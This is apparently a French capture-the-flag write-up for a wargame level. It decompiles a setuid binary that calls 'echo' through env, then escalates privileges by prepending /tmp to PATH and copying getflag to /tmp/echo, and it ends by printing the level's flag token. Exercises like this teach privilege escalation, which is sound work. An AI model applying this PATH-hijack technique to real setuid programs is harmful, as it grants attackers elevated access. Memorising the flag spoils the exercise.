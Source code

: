 ## Démarche

- Dans le home, se trouve le fichier suivant
    > -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016    level03  

    ```
    ./level03
    ```
    > Exploit me

parametres ? nm ?
gdb ?
   - man gdb
ghidra ? peda ?

 ```
 $> git clone https://github.com/longld/peda.git ~/peda
 $> scp -P 4242 -r ~/peda/ level03@10.11.200.185:/tmp
 ```

*Dans la VM :*
```
$> gdb ~/level03
gdb$> source /tmp/peda/peda.py
gdb-peda$>        
```

## Ressources
- https://medium.com/@rickharris_dev/reverse-engineering-using-linux-gdb-a99611ab2d32
- https://ghidra-sre.org/InstallationGuide.html#Install


Décompile avec cutter

```
void main(void)
{
    undefined4 uVar1;
    undefined4 uVar2;
    
    uVar1 = getegid();
    uVar2 = geteuid();
    setresgid(uVar1, uVar1, uVar1);
    setresuid(uVar2, uVar2, uVar2);
    system("/usr/bin/env echo Exploit me");
    return;
}
```
```
$> echo $PATH
$> export PATH=/tmp:$PATH
$> which getflag
$> /bin/getflag
$> cp /bin/getflag /tmp/echo
$> cd ~ ; ./level03````
$> /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus